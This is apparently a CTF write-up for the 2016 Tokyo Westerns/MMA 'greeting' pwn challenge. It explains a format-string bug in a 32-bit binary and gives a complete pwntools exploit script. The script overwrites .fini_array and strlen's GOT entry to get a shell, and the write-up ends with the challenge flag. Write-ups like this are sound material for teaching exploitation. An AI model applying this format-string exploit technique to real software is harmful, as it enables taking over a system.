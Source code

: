 ```yaml
---
title: MMA 2nd CTF 2016 -- greeting
tags:
  - MMA
  - CTF
  - format_string
  - Python
  - Pwnable
categories:
  - write-ups
date: 2016-09-12 15:49:00
---
```

**Category:** pwn
**Points:** 150  

<!-- more -->  
  
After a long period of time without playing any CTF, I finally finished my master's degree and have time to enjoy some CTF challenges. And then there is the **Tokyo Western/MMA 2nd CTF**, the first CTF I played in 2016.  
  
The challenge gave us a 32 bit ELF. The program will first use `system` to echo some message, then it will ask us to input our name, and print the greeting message. We can see that there exist a format string vulnerability in the main function:  
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    int result; // eax@2
    int v4; // edx@4
    int v5; // [sp+1Ch] [bp-84h]@2
    int v6; // [sp+5Ch] [bp-44h]@1
    int v7; // [sp+9Ch] [bp-4h]@1

    v7 = *MK_FP(__GS__, 20);
    printf("Please tell me your name... ");
    if ( getnline((char *)&v6, 64) )
    {
        sprintf((char *)&v5, "Nice to meet you, %s :)\n", &v6);
        result = printf((const char *)&v5); // <-- format string 
    }
    else
    {
        result = puts("Don't ignore me ;( ");
    }
    v4 = *MK_FP(__GS__, 20) ^ v7;
    return result;
}
```

As we can see that the program ends directly after it print out the greeting message, so it's kind of hard for us to do the GOT hijacking attack. After discussing with my teammate, we found that there's one more place we can overwrite the function pointer: **the `.fini_array` section**.  
  
So, we can first overwrite the **first entry** of the `.fini_array` section and hijack the control flow. Notice that we can only input 64 bytes characters, and that's kind of hard for us to write both `system`'s address and `sh`'s string into the memory buffer. Here's what we can do :  
  
* Overwrite both `.fini_array` section and `strlen`'s GOT entry. We replace the first entry of the `.fini_array` section into **main function's address**, while `strlen`'s GOT entry be changed into `system`'s PLT.  
* The program will then return to the main function. Since `strlen`'s GOT has already been changed into `system`'s address, we can then input `sh` and execute `system("sh")` during the `getnline` function (the function will call `strlen` on our input).  

```python exp_greeting.py
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "pwn2.chal.ctf.westerns.tokyo"
PORT = 16317
ELF_PATH = "./greeting"
LIBC_PATH = ""

# setting 
context.arch = 'i386'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def fmtstr(payload, prints, index, data, byte=1):
    """
    data: data that want to be written into the address
    index: stack position (ex. %7$n --> index = 7)
    prints: total charaters that have been print out
    payload: whole payload string, initial value are addresses

    ex.  payload = p32(addr) + p32(addr2) + p32(addr3)
         prints = 12
         payload, prints = fmtstr(payload, prints, 7, 0xa0a0, 2)
         payload, prints = fmtstr(payload, prints, 8, 0xc0, 1)
         payload, prints = fmtstr(payload, prints, 9, 0x08047654, 4)
    """

    if data - prints > 0:
        num = data - prints
    else:
        num = data + 256**byte - prints
        while(num <= 0):
            num += 256**byte
    
    payload += "%" + str(num) + "c" 
    prints = data

    if byte == 1:
        payload += "%" + str(index) + "$hhn"
    elif byte == 2:
        payload += "%" + str(index) + "$hn"
    elif byte == 4:
        payload += "%" + str(index) + "$n"
    elif byte == 8:
        payload += "%" + str(index) + "$lln"

    return payload, prints

def fmtstr_scan(cnt):
    return '.'.join( "%"+str(i)+"$p" for i in xrange(1,cnt+1))

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    payload = "AA"+p32(0x08049934) + p32(elf.got['strlen']) + p32(elf.got['strlen']+2) 
    prints = len(payload) + 18
    payload, prints = fmtstr(payload, prints, 12, 0x85ed, 2)
    payload, prints = fmtstr(payload, prints, 13, 0x8490, 2)
    payload, prints = fmtstr(payload, prints, 14, 0x0804, 2)
    print payload
    print len(payload)

    r.sendlineafter("... ", payload)
    r.sendlineafter("... ", "sh\x00")

    r.interactive()
```
  
flag: `TWCTF{51mpl3_FSB_r3wr173_4nyw4r3}`
